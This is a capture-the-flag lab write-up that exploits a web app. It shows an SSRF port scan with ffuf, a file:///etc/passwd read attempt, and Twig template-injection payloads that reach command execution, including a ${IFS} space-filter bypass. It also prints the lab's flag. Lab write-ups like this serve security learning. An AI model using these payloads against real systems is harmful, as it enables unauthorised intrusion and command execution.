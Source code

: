 ```yaml
---
sticker: lucide//server
---
```

## Scenario

You are tasked to perform a security assessment of a client's web application. Apply what you have learned in this module to obtain the flag.

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250212154851.png)

Let's begin by checking the page:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250212154913.png)

We got a simple page, nothing is off at the beginning, we have three sections: `menu`, `reviews` and `contact`, let's read the main's page source code:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250212155010.png)

We can see this js code at the end of the file, let's break it down:

```ad-important
### **1. Loop Through Truck IDs**

- Iterates over a list of truck IDs: `["FusionExpress01", "FusionExpress02", "FusionExpress03"]`.
    
- For each truck ID, an HTTP request is made to fetch its location.
    

---

### **2. XMLHttpRequest Setup**

- **Synchronous Request**:  
    `xhr.open('POST', '/', false)` creates a **synchronous** POST request to the server (`/`).  
    _(Synchronous requests block the UI until completion, which is generally discouraged.)_
    
- **Request Headers**:  
    Sets `Content-Type: application/x-www-form-urlencoded` to send data as form-encoded key-value pairs.
    

---

### **3. Request Handling**

- **POST Data**:  
    Sends the parameter `api=http://truckapi.htb/?id=<TRUCK_ID>` in the request body.
    
    - `encodeURIComponent("=" + truckID)` ensures the `=` and truck ID are URL-safe (e.g., `%3DFusionExpress01`).
        
    - Final URL sent to the server: `http://truckapi.htb/?id=FusionExpress01`.
        
- **Server-Side Behavior**:  
    The server likely acts as a proxy, using the `api` parameter to fetch data from the internal `truckapi.htb` endpoint.  
    _(This could introduce SSRF vulnerabilities if the server doesn’t validate the URL.)_
    

---

### **4. Response Handling**

- **Success Case (HTTP 200)**:
    
    - Parses the response as JSON.
        
    - Displays `data['location']` if available, or `data['error']` if an error is present.
        
- **Failure Case**:  
    Shows "Unable to fetch current truck location!" if the request fails (non-200 status).
    

---

### **5. UI Updates**

- Updates the HTML element with `id=truckID` (e.g., `<div id="FusionExpress01">`) to show the location/error.
    

---

### **Key Observations**

- **SSRF Risk**: The server trusts the `api` parameter to make internal requests. If unvalidated, attackers could exploit this to access internal systems.
    
- **Hardcoded Truck IDs**: Limits functionality to predefined trucks (no user input).
    
- **Synchronous Requests**: Poor practice for user experience but intentional here for sequential processing.

### **Summary**

For each Truck ID:
  1. Send POST to server with URL: `http://truckapi.htb/?id=<TRUCK_ID>`
  2. Server fetches data from `truckapi.htb`
  3. Client displays location/error in the webpage
```

Understanding the functionality of the page, we can start burp and check the request:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250212160205.png)

We can begin the testing for SSRF.

## SSRF Test
---

We can begin the test by pointing `http://127.0.0.1:80` to view the response:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250212160429.png)

It went through, what if we point to a closed port:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250212160546.png)

An error message is shown, knowing this, we can use ffuf and fuzz for open ports:

```
ffuf -w ports.txt:FUZZ -u http://83.136.252.66:53014/ -X POST -H "Host: 83.136.252.66:53014" -H "Content-Type: application/x-www-form-urlencoded" -d "api=http://127.0.0.1:FUZZ" -fr "Error \(7\)" -ic -c -t 200
```

We can see the following:

```
ffuf -w ports.txt:FUZZ -u http://83.136.252.66:53014/ -X POST -H "Host: 83.136.252.66:53014" -H "Content-Type: application/x-www-form-urlencoded" -d "api=http://127.0.0.1:FUZZ" -fr "Error \(7\)" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://83.136.252.66:53014/
 :: Wordlist         : FUZZ: /home/samsepiol/ports.txt
 :: Header           : Host: 83.136.252.66:53014
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : api=http://127.0.0.1:FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Error \(7\)
________________________________________________

3306                    [Status: 200, Size: 45, Words: 7, Lines: 1, Duration: 158ms]
80                      [Status: 200, Size: 4194, Words: 278, Lines: 126, Duration: 5317ms]
```

So, port 3306 is open, let's check the response:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250212161958.png)

We got another error message, `Received HTTP/0.9 when not allowed`, but it doesn't matter, since we know we have SSRF, we can attempt to read local files:


```
file:///etc/passwd
```

We get the following:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250212165927.png)

`file` has been disabled, let's test other way.

## SSTI Test
---

We can test SSTI with this simple payload:


```twig
http://truckapi.htb/?id={{7*7}}
```

We see the following:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250212170132.png)

It works, this means we are facing `twig`, let's try to use this:

```twig
{{ ['id'] | filter('system') }}
```

We need to format it:

```twig
http://truckapi.htb/?id={{['id']|filter('system')}}
```

We see the following:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250212170307.png)

We got RCE, let's proceed to read our flag, since we need to do a space in order to do `cat /flag.txt`, we can use `${IFS}` which is the `Internal Field Separator` to bypass the space restrictions in shell commands, payload would be the following:

```twig
http://truckapi.htb/?id={{['cat${IFS}/flag.txt']|filter('system')}}
```

We can see the following:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250212170624.png)

We got our flag:

```
HTB{3b8e2b940775e0267ce39d7c80488fc8}
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250212170814.png)

